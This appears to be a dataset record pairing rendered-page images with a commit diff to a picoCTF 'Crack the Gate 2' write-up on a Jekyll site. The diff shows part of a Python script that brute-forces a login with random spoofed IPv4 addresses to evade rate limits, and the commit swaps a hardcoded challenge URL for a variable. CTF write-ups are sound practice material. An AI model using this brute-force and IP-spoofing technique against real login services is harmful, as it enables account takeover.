

Before and after one commit to 0xAstaaa/0xAstaaa.github.io, a Jekyll site: the page built from _writeups/2025-10-22-picoctf-Crack the Gate 2.md, in a window 1280 px wide and 1400 px high, scrolled down 499 px, cut to the strip 0-1309 px from the top of the window. Shown: the whole strip at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update login URL to use a variable for instance URL

````diff
--- a/_writeups/2025-10-22-picoctf-Crack the Gate 2.md
+++ b/_writeups/2025-10-22-picoctf-Crack the Gate 2.md
@@ -25,6 +25,7 @@ here a code in python that will help in this
 ```
 import requests
 import random
+url = "" # Enter your instance url
 def random_ipv4():
     return "{}.{}.{}.{}".format( random.randint(1, 254), random.randint(1, 254), random.randint(1, 254), random.randint(1, 254),)
 def Login(PassW , Ip):
@@ -40,7 +41,7 @@ def Login(PassW , Ip):
 
     json_data = { 'email': 'ctf-player@picoctf.org', 'password': PassW,}
 
-    response = requests.post('http://amiable-citadel.picoctf.net:55983/login', headers=headers, json=json_data, verify=False)
+    response = requests.post(url, headers=headers, json=json_data, verify=False)
     if 'success' in response.text:
         success = response.json().get('success')
         if success:
````
